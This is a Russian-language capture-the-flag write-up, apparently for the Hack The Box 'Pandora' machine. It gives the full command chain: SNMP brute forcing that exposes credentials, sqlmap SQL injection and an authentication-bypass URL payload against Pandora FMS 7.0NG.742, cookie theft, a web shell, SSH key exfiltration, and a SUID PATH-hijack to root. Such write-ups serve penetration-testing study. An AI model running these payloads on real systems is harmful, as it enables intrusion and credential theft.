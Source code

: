 спасибо [хактриксам](https://book.hacktricks.xyz/pentesting/pentesting-snmp)

на 80 порту ничего интересного не было, поискал директории, поигрался с формой для фидбека и пошарил по /assets

сканируем udp порты, топ 20 т.к. сканирование и так супер медленное
`sudo nmap -sU --top-ports=20 panda.htb`

сканируем открытый порт, висит snmp
`sudo nmap -sUV -T4 -p 161 panda.htb`

брутим community strings
`sudo nmap -sU -p 161 --script snmp-brute panda.htb --script-args snmp-brute.communitiesdb=./wordlists/SecLists/Discovery/SNMP/common-snmp-community-strings.txt`

енумератим snmp
`snmpwalk -v 1 -c <string> panda.htb .1`

креды юзера
`-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23`

`daniel`
`HotelBabylon23`

я доискался до директории `/var/www/pandora`

`cat /etc/hosts`
вывод
`127.0.0.1 localhost.localdomain pandora.htb pandora.pandora.htb`
`127.0.1.1 pandora`

создаем динамический туннель, чтобы подключиться к `localhost.localdomain/pandora_console`
`ssh -D 9090 daniel@panda.htb`
или
`ssh -L 80:localhost:80 daniel@panda.htb`

прокси socks5

заходим и видим версию pandora fms v7.0NG.742_FIX_PERL2020
гуглим pandora fms 742 vuln
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

ого, скульмап овер прокси
`sqlmap --url "http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" --random-agent --proxy socks5://127.0.0.1:9090`

доходим до такого
`sqlmap --url "http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" --random-agent --proxy socks5://127.0.0.1:9090 -D pandora -T tpassword_history --dump`

получаем хеши
`matt:f655f807365b6dc602b31ab3d6d43acc`
`daniel:76323c174bd49ffbbdedf678f6cc89a6`

`--os-shell` не сработал

есть еще интересное название `tsessions_php`

тырим куку и вставляем у себя в браузере
`g4e01qdgk36mfdh90hvcc54umq,"id_usuario|s:4:""matt"";alert_msg|a:0:{}new_chat|b:0;",1638796349`

у мэтта нет доступа к загрузке файлов, так что гуглим дальше
pandora fms 742 exploit
https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py

`http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO%27`

хороший url

теперь есть доступ к админской панели

загружаем туда шелл
делаем ревшелл

`python3 -c 'import pty;pty.spawn("/bin/bash")'`
`export TERM=xterm`

логинимся чз ssh
`ssh-keygen -t rsa`
`cat .ssh/id_rsa.pub > .ssh/authorized_keys`
`chmod 700 .ssh`
`chmod 600 .ssh/authorized_keys`
`python3 -m http.server 1233 &`

на своей машине
`http://0.0.0.0:1233/.ssh/id_rsa`
`chmod 600 id_rsa`
`ssh -i id_rsa matt@10.10.11.136`

дальше suid бинари...
`find / -user root -perm -4000 -exec ls -ldb {} \; >/tmp/suidfiles`

`pandora_backup` юзает `tar`

делаем фейк `tar`
`echo "/bin/bash" > tar`
`chmod +x tar`

`export $PATH=$(pwd):$PATH`
запускаем бинарь и получаем рут
`/usr/bin/pandora_backup`
